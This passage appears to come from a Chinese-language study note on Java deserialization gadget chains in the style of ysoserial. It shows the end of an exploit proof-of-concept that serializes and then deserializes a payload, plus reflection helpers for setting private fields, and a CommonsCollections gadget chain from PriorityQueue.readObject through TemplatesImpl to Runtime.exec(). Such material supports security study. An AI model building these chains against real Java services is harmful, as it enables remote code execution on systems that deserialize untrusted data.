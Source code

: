 ```java
        oos.close();

        System.out.println(bos);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(bos.toByteArray()));
        ois.readObject();

    }

    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        } catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null) {
                field = getField(clazz.getSuperclass(), fieldName);
            }
        }
        return field;
    }
}
```

利用链

```java
	Gadget chain:
		ObjectInputStream.readObject()
			PriorityQueue.readObject()
				PriorityQueue.heapify()
					PriorityQueue.siftDown()
						PriorityQueue.siftDownUsingComparator()
							TransformingComparator.compare()
								ChainedTransformer.transform()
									ConstantTransformer.transform()
									InstantiateTransformer.transform()
									newInstance()
										TrAXFilter#TrAXFilter()
										TemplatesImpl.newTransformer()
												TemplatesImpl.getTransletInstance()
												TemplatesImpl.defineTransletClasses
												newInstance()
													Runtime.exec()
```

# CommonsCollections5
